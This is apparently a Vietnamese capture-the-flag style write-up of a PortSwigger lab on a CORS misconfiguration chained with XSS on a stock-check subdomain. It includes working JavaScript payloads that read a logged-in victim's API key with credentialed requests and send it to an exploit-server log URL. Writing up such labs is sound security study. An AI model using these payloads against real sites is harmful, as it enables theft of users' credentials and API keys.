




## CORS vulnerability with trusted insecure protocols (REFER)

1. Login vào tài khoản được cấp. Gửi endpoint `/accountDetails` vào repeater thêm thử origin header với subdomain bất kỳ của lab nhận thấy `ACAO` header được reflect. 



2. Trong chức năng check stock sẽ redirect đến 1 subdomain của lab. Nhận thấy lỗ hổng xss ở trang check stock.



→ ta có thể sử dụng lỗ hổng XSS trên subdomain stock để thực hiện lấy API key. Bằng cách gửi từ trang subdomain stock gửi một xhr request via xss để có thể bypass whitelist origin header cho phép.

3. Thử với tài khoản được cấp, chèn đoạn js sau vào trang check stock 

```
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
	req.responseType = 'json';
    req.open('get', 'https://0a85009604e969e6c17d7133009000b5.web-security-academy.net/accountDetails', true);
    req.withCredentials = true;
    req.send();
    
    function reqListener() {
        document.write(req.response.apikey);
    };
</script>
``` 



4. Craft trang exploit, viết script để victim tự động chuyển hướng đến trang stock bị XSS

```
<script>
    document.location="http://stock.0a85009604e969e6c17d7133009000b5.web-security-academy.net/?productId=<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.responseType = 'json';req.open('get','https://0a85009604e969e6c17d7133009000b5.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://exploit-0a9800ce04746907c17a70df012400dc.exploit-server.net/log?key='%2breq.response.apikey; };%3c/script>&storeId=1"
</script>

```

5. Nhận được apikey 

